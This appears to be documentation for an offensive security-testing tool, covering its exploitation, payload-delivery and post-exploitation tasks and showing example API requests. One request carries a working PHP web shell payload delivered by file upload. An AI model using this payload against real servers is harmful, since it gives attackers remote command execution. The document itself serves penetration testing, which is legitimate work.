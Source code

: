 ### **Enhanced Task System (`exploit/tasks.py`)**
```python
# Advanced exploitation tasks:
- run_exploitation_framework: Proof-of-concept generation and validation
- run_payload_delivery: Multi-method payload delivery and monitoring
- run_post_exploitation: System enumeration and persistence establishment
- Comprehensive result processing and finding creation
```

## 🚀 **New API Endpoints**

### **Exploitation Framework**
```bash
# Proof-of-concept exploit generation and validation
POST /scans/exploitation-framework
{
  "target": "https://vulnerable.example.com",
  "vulnerabilities": [
    {
      "id": "vuln_1",
      "vulnerability_type": "xss",
      "url": "https://vulnerable.example.com/search",
      "parameter": "q",
      "confidence": 0.9
    }
  ],
  "validate_exploit": true,
  "priority": 9
}
```

### **Payload Delivery**
```bash
# Advanced payload delivery with multiple methods
POST /scans/payload-delivery
{
  "target": "https://target.example.com",
  "payload_configs": [
    {
      "id": "payload_1",
      "payload_type": "web_shell",
      "delivery_method": "file_upload",
      "payload": "<?php system($_GET['cmd']); ?>",
      "file_extension": ".php",
      "monitor_execution": true
    }
  ],
  "monitor_execution": true,
  "priority": 9
}
```
